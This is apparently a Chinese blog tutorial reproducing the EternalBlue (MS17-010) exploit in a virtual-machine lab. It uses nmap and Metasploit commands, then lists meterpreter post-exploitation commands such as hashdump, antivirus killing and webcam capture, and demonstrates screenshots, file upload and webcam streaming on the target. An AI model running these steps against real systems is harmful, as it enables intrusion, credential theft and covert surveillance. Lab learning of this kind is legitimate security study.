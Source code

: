```yaml
---
title: 永恒之蓝复现以及简单的后渗透信息收集
date: 2023-04-16 15:34:29
categories: 技术
tags:
    - 网络安全
# description: 网络安全，有点意思
---
```



### 环境准备

首先需要准备两台虚拟机，一台运行kali linux，一台运行windows7，windows其他版本的没有测试，不过非常有可能其他版本已经修复这个bug了，用来学习测试的话，用windows7比较妥善。

<!-- more -->

### 网络准备

必须保证windows7和kali linux 在同一个局域网底下，即保证这两台机器IP都是同一个网段的地址。

### 攻击开始

1. 使用kali的nmap工具进行扫描，查看同一个网络下，有哪些主机。运行下面这个命令。

```c
    # nmap -T4 -A -v -Pn 192.168.20.1/24
```
![扫描域内主机](./crypto/1.png)

可以看到有一个***192.168.20.129***的主机可用，开启了445端口。我们就对这个主机进行攻击。

2. windows验证一下，发现windows获取的IP确实是***192.168.20.129***

![windows验证](./crypto//2.png)

3. 在kali上使用工具开始攻击，运行以下命令，稍作等待。

```c
    # msfconsole -q  
```

> -q 选项不再继续打印工具启动时的图形文字

> 运行之后是这样的效果

![msfconsole](./crypto/3.png)

4. 执行以下命令，搜索可以利用的漏洞工具

```c
    msf6 > search ms17-010
```
![ms17-010](./crypto/4.png)

5. 选择序号为0的漏洞进行攻击，分别执行以下代码

```c
    msf6 > use 0
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.20.50
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.20.129
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

> set lhost 是设置攻击主机的IP，set rhost 是设置靶机主机的IP，run开始进行攻击。

效果图如下：

![开始攻击](./crypto/5.png)

6. 稍等片刻，攻击成功后，命令行的提示文字会变为**meterpreter>**，入侵完成，我们可以用命令进行对windows主机的任何操作。

|命令|功能|
|:---:|:---:|
|shell|启动靶机主机的cmd|
|screenshot|对靶机进行屏幕截图|
|webcam_list|列出摄像头|
|webcam_snap|利用靶机摄像头拍照|
|webcam_stream|利用靶机摄像头拍视频|
|getuid|获取登录用户|
|getsystem|获取磁盘信息|
|hashdump|获取密码的哈希值|
|kill|杀掉进程|
|download|下载文件|
|upload|上传文件|
|run killav|关闭杀软|
|run post/windows/manage/killava|关闭杀软|
|run post/windows/gather/checkkvm|检查是否是虚拟机|
|run post/windows/gather/enum_services|列出所有的服务|
|run post/windows/gather/enum_applications|列出运行的程序|
|run post/windows/gather/enum_patches|列出打的补丁|
|run post/windows/gather/dumplinks|列出最近的操作|


7. 以下是利用上述命令实现的一些效果图

* 使用shell

```c
    meterpreter > shell
```
> 运行之后成功进入shell，但是会出现部分乱码，接着输入命令`chcp 65001`，回车后乱码变正常。

![帅哥](./crypto/6.png)

* 屏幕截图，运行以下命令

```c
    meterpreter > screenshot
```

运行成功后桌面上会多了一张windows的屏幕截图

![帅哥](./crypto/7.png)

* 上传文件

上传这一张照片

![帅哥](./crypto/8.png)

执行以下命令

```c
    meterpreter > upload /home/kali/Desktop/shuaige.png c:\\shuaige.png
```

![帅哥](./crypto/9.png)

显示上传成功，然后去windows主机验证。

![帅哥](./crypto/10.png)

上传成功，windows正常查看。

* 调用网络摄像头，运行以下命令

```c
    meterpreter > webcam_stream
```

![帅哥](./crypto/11.png)

> kali 成功调用到了windows7的摄像头

### 写在后面的话

网络并不是法外之地，且行且珍惜。